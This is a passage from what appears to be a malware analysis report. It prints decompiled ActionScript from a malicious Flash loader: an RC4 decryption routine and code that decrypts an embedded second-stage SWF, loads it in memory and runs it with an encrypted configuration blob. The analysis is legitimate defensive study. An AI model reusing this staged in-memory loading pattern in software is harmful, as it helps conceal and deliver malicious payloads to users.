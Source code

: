 ```actionscript
   while(i2 < param2.length)
   {
      i1 = i1 + 1 & 255;
      j = j + _arr1[i1] & 255;
      k = uint(_arr1[i1]);
      _arr1[i1] = _arr1[j];
      _arr1[j] = k;
      _arr2[i2] = param2[i2] ^ _arr1[_arr1[i1] + _arr1[j] & 255];
      i2++;
   }
   return _arr2;
}
```

We port it in Python in the `stage1_decrypt.py` script:

* The decrypted string `loadBytes;removeEventListener;stage;contentLoaderInfo;addChild;addEventListener`
  is used to initialise `this.x`, see code in section \ref{code_owaugjojgtx}.
* `stage2.swf` is a second Flash file loaded in memory.

Note that the decryption algorithm is actually RC4 but we didn't realise that at the time of 
quickly wrapping some code to decrypt it. Another clue for this is that RC4 is also used in
stage 2 (more on this later).

We replace the instances of `this.x[]` in the source code using `stage1_replace.py`. All parts
of the Action Script source code have been explained except the following:

* `_loc35_` is the decrypted `stage2.swf`. It is used to initialise the `Loader.loadBytes`.
* The callback `q` is defined to be executed when the `stage2.swf` file has finished loading.
* The callback `q` intialises a MovieClip with the `stage2.swf` data and appends it as a child
  to start execution.
* Finally it calls the stage2 `et()` function and passes the `picuazscsx` blob as an argument.
  We details this when analysing `stage2.swf` in section \ref{internal_configuration}.

```actionscript
private function h(param1:Event = null) : void
{
   ... 
   _loc35_ = this.decrypt(_loc50_,_loc35_);
   var _loc9_:Loader = new Loader();
   _loc9_["contentLoaderInfo"]["addEventListener"]("complete",this.q);
   _loc9_["loadBytes"](_loc35_);
}

private function q(param1:Event) : void
{
   this["removeEventListener"]("complete",this.q);
   var _loc18_:ByteArray = new picuazscsx() as ByteArray;
   var _loc14_:MovieClip = MovieClip(param1.target.content);
   this["stage"]["addChild"](_loc14_);
   _loc14_.et(_loc18_);
}
```
